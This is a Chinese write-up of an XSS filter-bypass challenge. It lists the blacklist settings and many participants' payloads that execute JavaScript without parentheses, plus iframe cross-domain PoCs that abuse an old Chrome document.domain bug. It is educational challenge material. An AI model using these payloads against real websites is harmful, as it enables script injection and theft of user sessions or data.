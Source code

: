 # XSS挑战第一期Writeup

0x00 起因
-------

* * *

这期 XSS 挑战的起因是在阅读“Modern Web Application Firewalls Fingerprinting and Bypassing XSS Filters”过后,在其中发现了一个很有趣的话题。那就是在圆括号被过滤的情况下,如何去执行javascript。在文中笔者给出来了这样的解决方案:

```
<a onmouseover="javascript:window.onerror=alert;throw 1>

```

这是一个通过抛出异常的方式来执行 alert()的方案。那么,还有没有别的办法可以让我们在没有圆括号的情况下执行Javascript呢?众神们经常说,没有具体环境的讨论是没有意义的。所以我就花了一点时间,编写了一个基于黑名单的XSS防御代码。也就有了我们这次的挑战。

0x01 设定
-------

* * *

为了增加一点挑战的难度,根据一些较常见的XSS防御代码,对本次挑战进行了下列设定:

过滤:

```
(,),&,\,<,>,',%28,%29,空格+on,alert,data,src,eval,unescape
innerHTML,document,appendChild,createElement,write,String,setTimeout

```

当然,为了保证更多人可以参与进来,我并没有对最前面给出的答案进行过滤。

0x02 结果
-------

* * *

![2014012516263844018.png](http://drops.javaweb.org/uploads/images/1b03bb53134242cbf7aba36e21ad7f6dc26c9079.jpg)

在挑战开始不到三个小时的时间里,gainover拿下了这次挑战的First Blood。

```
"onblur=a="%2",location="javascript:aler"+"t"+a+"81"+a+"9

```

巧妙的使用定义变量的方式,重新拆装了URL编码分别为:%28和%29的左右圆括号,进而绕过了我们的限制。随后又放弃了定义变量的方式,而直接选择了通过连接字符串的方式 来缩减payload的长度。

```
"onblur=location="javascript:aler"+"t%2"+"81%2"+"9

```

紧随其后,又有第二位挑战成功者px1624,使用了和gainonver类似的方式,绕过了我们的过滤规则。当然,从上面的例子当中我们不难看出,此处的href是可以省略来简短长度的。

```
"onblur=location.href="JAvascript:ale"+"rt%2"+"81%2"+"9

```

之后我们又从 gainver 收到了另一种绕过方式。

```
"onblur=top.onerror=top["ale"+"rt"];throw"1

```

看上去和我们预留的答案大相径庭,但是也有它有趣的一部分。因为提交者在这里并没有使用较长的window而是使用了top,当然作为其它选项也可以使用parent或self。但是很明显top是最短的。如果不考虑触发难易性,也许我们可以把第一个onblur换成oncut,把第二个onerror换成onblur来进一步节约两个字节。(当然,我并不认为在任何情况下,短的就是好的。)在Chrome下先在input里面按一次ctrl+x,在通过点击地址栏或其它tab即可触发。

正在思考这个top的问题时,gainover又寄来了一种更有趣的绕过方式。

```
"onblur=outerHTML=URL//#<img/src=1 onerror=alert(1)>

```

可能有些人看完之后会觉得是不是变长了呢?实际上#后面的部分是不会被算在QueryString里面的。所以这里的实际长度只有23。提交者巧妙的使用outerHTML的方式将整个URL都写入到了DOM。但是在这里不得不提的是,浏览器差异问题。虽然在Internet Explorer(IE8 下测试)和Chrome(最新版本)当中,这种方法都可以直接把URL写到DOM中,但是Firefox会将URL编码过的内容写入到DOM中,导致无法完成HTML注入。所以在实际的操作过程中,如果条件允许的话,可能需要我们调用一些可以对URL进行解码的JS函数,先对URL进行一次解码再写入到DOM中,进而提高payload的通用性。

随后gainover又再一次通过空格来代替注释符(//),为自己赢得了更短的代码。

```
"onblur=outerHTML=URL #<img/src=1 onerror=alert(1)>

```

来自fangfei yang的答案:

```
"oncut=top.onerror%3Dtop["al"+"ert"];throw"1

```

来自Chu的答案:

```
<iframe src="http://xss.z7ys.com/?xss="onblur="location=window.name&submit=搜索" name="javascript:alert(1)"></iframe>

```

这位挑战者通过window.name实现了iframe的跨域,并完成了挑战。类似的方法还有URL.hash window.postMessage等等。在后续出来类似的答案时将不在重复写iframe的部分。

来自 Dun 比较有趣的答案: ￼￼

```
"onfocus=new%A1%A1window["al"+"ert"]

```

在这里出现了一个小插曲,也是我的一个失误。因为两台服务器当中一台使用了utf-8编码,而另外一台又使用了GB2312编码。这位挑战者就在编码为GB2312的页面用了全角空 格(%A1%A1)。当然作为这个的替代品,还有%0B%0B。

之后Dun又使用了Chrome上一个版本的跨域漏洞,再次缩短了自己的payload长度。(因为chrome跨域漏洞的细节在很多地方都可以找到,我就不在这里造轮子了。)下面是他的POC:

```
<script> var dd=false; document.domain=""; </script>
<iframe id="xss"src="//xss.z7ys.com./?xss=%22onblur%3Ddomain%3D%22%22+&submit=%CB%D1%CB%F7"onload="dd=true;"width="100%"height="100%"onmouseover="xssalert();"></iframe>
<script>
function xssalert(){
if(dd){
var xssiframe=document.getElementById("xss").contentWindow;
xssiframe.document.write("<script>alert(1)<\/script>");
}};
</script>

```

SqlCode的答案:

```
"oncut=_=window;_.onerror=_["al"+"ert"];throw[1]

```

Laix的答案:

```
"oncut=location="javascript:aler"+"t%"+"281%"+"29

```

Galaxy的答案:

```
"onblur=javascript:window.onblur=al%00ert;throw"1

```

该挑战者使用绕过 IE8/IE9 filter 的一个技巧(%00),完成了挑战。

e3rp4y的答案:

```
"onfocus=window.onblur=top["aler"%2b"t"];throw"1

```

来自0x00有趣的答案:

```
()&xss="onclick=a=location.search;location.href="javascript:a"+"lert"+a[1]+a[2]//

```

把()作为参数放在问号的后面再用 location.search 调用了出来。

```
"onclick=a=location;b=a.hash;a.href="javascript:a"+"lert"+b[1]+b[2]//

"onclick=a=location;a.href="javascript:/*"+a.hash//#*/alert()

"onclick="location.href=window.name

```

来自 litdg 的答案:

```
"/onblur=window.onerror=window["aler"+"t"];throw+1//

```

来自过客的答案:

```
"onclick="location=top.a.name

```

最后附上本次挑战的第一名获得者/fd 的一些答案:

```
<iframe name="javascript:alert(1)" src=//133.52.240.75/index.php?xss="autofocus/onfocus="location=self.name></iframe>

```

通过iframe的self.name实现了跨域。

```
<iframe height=500 src=//xss.z7ys.com/index.php?xss=%22ondrop%3Ddomain%3D%22com></iframe>
<script>
 document.domain = 'com';
 setInterval(function() {
  frames[0].alert && frames[0].alert(1);
 },100)
</script>

```

![2014012516555130399.png](http://drops.javaweb.org/uploads/images/62a11ee9af2c6c1de9180203437732545ae6587e.jpg)

chrome跨域漏洞+拖拽劫持(只附上了重要部分代码,效果见上图)。一个很用心的 POC。当我们试图把硬币投入下面的黑框时触发。

```
<iframe height=500 src=//xss.z7ys.com./index.php?xss=%22oncut%3Ddomain%3D%22></iframe>
<script>
 document.domain = '';
 setInterval(function() {
  frames[0].alert && frames[0].alert(1);
 },100)
</script>

```

最后用旧版chrome的跨域漏洞(测试于Chromium 31.0.1650.8)以15个字符的成绩终结了比赛。

0x03 写在最后
---------

* * *

因为个人经验和知识储备的不足,可能在挑战的设定和评判标准上面没能做的很完善。而且整个挑战也似乎从如何绕过圆括号的限制慢慢的演变成了 The short talk of XSS。也许有人会觉得这是造轮子吧。但是我相信在参与的过程当中,大家也和我一样或多或少都学到了一些什么。其实,在编写这篇文章的同时,我和我的小伙伴们(Laix,烟花兔子,Line)花费心思又搞了一个自认为比较有趣的XSS挑战。暂时就将它称作为XSS挑战第二期吧。希望到时候大家也能来玩玩!最后,谢谢/fd,LinE,瞌睡龙等人的乌云币赞助。

提供该程序PHP源代码供各位下载，自己搭建测试：[index.php.zip](http://static.wooyun.org/20141017/2014101713115718908.zip)